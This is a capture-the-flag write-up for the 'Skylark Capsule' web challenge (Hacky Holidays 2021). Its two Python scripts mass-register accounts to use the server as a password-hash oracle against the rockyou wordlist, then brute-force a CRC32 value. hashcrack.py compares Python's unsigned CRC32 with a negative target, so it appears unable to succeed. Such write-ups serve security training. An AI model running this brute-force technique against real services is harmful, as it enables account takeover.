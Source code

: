 ```yaml
---
name: Skylark Capsule (2021)
event: Hacky Holidays Space Race CTF 2021
category: Web
description: Writeup for Skylark Capsule (Web) - Hacky Holidays Space Race CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Skylark Capsule

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/hY446_xs-DE/0.jpg)](https://youtu.be/hY446_xs-DE?t=3860s "Hacky Holidays Space Race 2021: Skylark Capsule")

## Challenge Description

> We have the best capsules available for your deployment into space!

## Solution

#### brute.py

{% code overflow="wrap" %}
```py
from pwn import *
import requests
import json

# Change between info/debug for more verbosity
context.log_level = 'debug'

url = 'https://todo.challenge.hackazon.org'
wordlist = open('/usr/share/wordlists/rockyou.txt', 'r')
admin_pw = '-432570933'  # Got this from part 1 of challenge

for count, password in enumerate(wordlist):
    headers = {}
    password = password.strip()
    if password:
        # Creds to try
        credentials = {
            'username': 'y' + str(count),
            'email': str(count),
            'password': password
        }

        # Register new account
        response = requests.post(url + "/user/register", json=credentials)
        del credentials['email']  # Don't need email to login

        # Login with new account
        response = requests.post(url + "/user/login", json=credentials)

        # Assign JWT token as auth header
        headers['Authorization'] = 'Bearer ' + json.loads(response.text)['token']

        # Get capsule spec
        response = requests.get(url + "/user/capsule", headers=headers)

        # Extract the password
        hashed_pw = json.loads(response.text)['data'][0]['password']
        debug(admin_pw + ': ' + hashed_pw + ' (' + password + ')')

        # If we get a match, quit!
        if hashed_pw == admin_pw:
            print("Success! Correct password was: " + password)
            wordlist.close()
            quit()

        # Track progress / performance
        if((count + 1) % 100 == 0):
            print(str(count + 1) + " attempts so far..")

# Maybe we need new password list?
print("Failed to find correct password :(")
wordlist.close()
```
{% endcode %}

#### hashcrack.py

{% code overflow="wrap" %}
```py
from pwn import *
import zlib

wordlist = open('/usr/share/wordlists/rockyou.txt', 'r')
admin_pw = -432570933
initial_pw = 'skylark'

for count in range(99999999999):
    password = str(count)
    hashed_pw = zlib.crc32(password.encode())
    print(hashed_pw)
    # If we get a match, quit!
    if hashed_pw == admin_pw:
        print("Success! Correct password was: " + password)
        wordlist.close()
        quit()

    # Track progress / performance
    if((count + 1) % 100 == 0):
        print(str(count + 1) + " attempts so far..")

# Maybe we need new password list?
print("Failed to find correct password :(")
wordlist.close()
```
{% endcode %}
